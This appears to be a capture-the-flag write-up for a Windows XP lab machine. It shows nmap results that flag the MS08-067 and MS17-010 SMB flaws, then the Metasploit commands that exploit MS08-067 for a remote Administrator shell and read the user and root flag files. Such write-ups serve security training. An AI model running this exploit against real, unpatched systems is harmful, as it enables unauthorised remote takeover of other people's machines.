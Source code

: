 ```none
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

## MS08-067 with Metasploit

This is a real blast from the past. MS08-067 was the first exploit I ever used in the Metasploit Framework - about 10 years ago... maybe even more! Exploitation is straightforward.

```none
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST 10.10.14.4
exploit
```

This gives us a remote shell with Administrator rights. I think it took me longer to figure out where the flag was on Windows XP, than to exploit the machine! 

```none
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```
